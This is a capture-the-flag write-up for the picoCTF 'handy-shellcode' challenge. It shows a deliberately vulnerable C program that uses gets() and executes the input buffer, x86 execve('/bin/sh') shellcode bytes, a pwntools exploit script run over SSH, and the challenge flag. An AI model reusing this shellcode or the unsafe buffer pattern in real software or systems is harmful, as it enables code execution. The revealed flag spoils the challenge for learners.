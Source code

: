 # handy-shellcode - Point: 50

## description

This [program](./vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. [Source](./vuln.c).

## solution

We're given a binary as well as the source code for this challenge.
The source code is shown below:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");

  return 0;
}
```

We can see that the ```vuln()``` function stores user input using ```gets(buf)``` and that memory at the address of ```buf``` is executed as a function here:

```
((void (*)())buf)();
```

As the name of the challenge suggests, we need to input shell code that will allow us to read the flag file.
This can be done by calling ```/bin/sh``` and sending commands through ```stdin```.

To do this, I used shellcode from http://shell-storm.org/shellcode/ for Linux/Intel x86.
The code I chose was execve("/bin/sh") by Magnefikko, which can be found here: http://shell-storm.org/shellcode/files/shellcode-585.php

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## exploit script

I used pwntools to connect to the shell server, start the process, and send the shellcode and commands to read the flag.
I then switched to interactive mode to receive the flag and allow me to input any other commands, though permissions were restricted to reading this flag only.

```
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af'

print("running vuln")
vuln = conn.process(location + '/vuln')

print("sending payload")
vuln.sendlineafter('shellcode', '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')
vuln.sendlineafter('$', 'cd ' + location)
vuln.sendlineafter('$', 'cat ' + location + '/flag.txt')

print("done")
vuln.interactive()
```

Flag: ```picoCTF{h4ndY_d4ndY_sh311c0d3_5843b402}```

